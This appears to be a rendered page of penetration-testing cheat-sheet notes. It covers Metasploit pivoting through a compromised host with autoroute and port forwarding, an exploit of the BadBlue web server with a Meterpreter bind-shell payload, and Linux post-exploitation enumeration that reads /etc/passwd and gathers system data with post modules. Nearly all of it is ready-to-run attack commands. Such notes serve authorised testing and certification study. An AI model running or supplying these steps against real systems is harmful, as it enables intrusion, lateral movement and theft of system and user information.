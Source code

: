 **PIVOTING**

```
# Meterpreter
run autoroute -s <TARGET1_SUBNET_NETWORK>

use auxiliary/scanner/portscan/tcp
set RHOSTS <TARGET2_IP>
set PORTS 1-100

# Port Forwarding
sessions 1
portfwd add -l <LOCAL_PORT> -p <TARGET2_PORT> -r <TARGET2_IP>
background
db_nmap -sS -sV -p <LOCAL_PORT> localhost
# Target2 Exploitation
use exploit/windows/http/badblue_passthru
set payload windows/meterpreter/bind_tcp
set RHOSTS <TARGET2_IP>
set LPORT <LOCAL_PORT2>
run
```

**Linux Post-Exploitation**



```
# Meterpreter - 'root' user
shell

# Local machine Enumeration
/bin/bash -i
whoami
cat /etc/passwd #Users and services
groups root
cat /etc/*issue
cat /etc/*release
uname -a
uname -r

netstat -antp
ss -tnl

ps aux
env

lsblk -l #Check Drives

# msfconsole
use post/linux/gather/enum_configs
use post/multi/gather/env
use post/linux/gather/enum_network
use post/linux/gather/enum_protections
use post/linux/gather/enum_system
use post/linux/gather/checkcontainer
use post/linux/gather/checkvm
use post/linux/gather/enum_users_history
set SESSION 1

loot
```

